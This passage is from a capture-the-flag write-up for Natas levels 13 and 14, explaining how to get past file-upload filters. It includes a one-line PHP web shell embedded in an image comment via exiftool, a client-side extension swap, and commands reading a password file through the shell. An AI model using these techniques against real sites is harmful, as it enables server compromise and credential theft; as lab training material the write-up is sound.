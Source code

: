 And it will allow us to inject the command in the url above after "**.php?=cmd**".
So let's craft it in a **.php** file (that I named rev.php) and upload it.

![alt text](NatasScreenshots/13.1.png)

The problem is after uploading it, it changes its extension from **.php** to **.jpg** which will prevents its job.

![alt text](NatasScreenshots/13.2.png)

And that's because it set the name randomly (as we said earlier) from the very beginning and replace our file's name, including its extension, with the generated name. This is where it is done :

![alt text](NatasScreenshots/13.3.png)

So to prevent it from changing our extension, after the page is loaded and before uploading our file, we need to change the **HTML** code and specifically change the extenstion of the generated name in that line from **.jpg** to **.php**.

![alt text](NatasScreenshots/13.4.png)

Let's upload now and follow the link to open our reverse web shell.

Let's verify if the payload is working correctly by adding to the url : **" ?cmd=whoami "**.

![alt text](NatasScreenshots/13.5.png)

Cool ! Now let's inject the command **" cat /etc/natas_webpass/natas13 "** to get the next password. But first, we need to URL-encode it. In our case, all we need to is replace that space with **" %20 "**. If you want to make sure, you can hope quickly to CyberChef and URL-encode that command.

Anyway, here is the result :

![alt text](NatasScreenshots/13.6.png)

# Level 14

Now, it checks if we uploaded a legit image so we can't simply throw a php payload. So let's get ourselves a real image and inject in it the payload !

The image needs to be really tiny with a size under 1Kb to be accepted so let's download a small white pixel. Here is a nice website to do so : https://commons.wikimedia.org/wiki/File:1x1.png

Now how can we inject our payload in that image ? Well, each image has a field named **Comment** that can hold strings without affecting the image itself. So let's comment our payload in that image with **exiftool** command. Then, we need to rename our image to hold **.php** extension rather than **.png** so it can work properly

```console
$ exiftool -Comment='<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>' 1x1.png
$ mv 1x1.png 1x1.php
```

![alt text](NatasScreenshots/14.1.png)

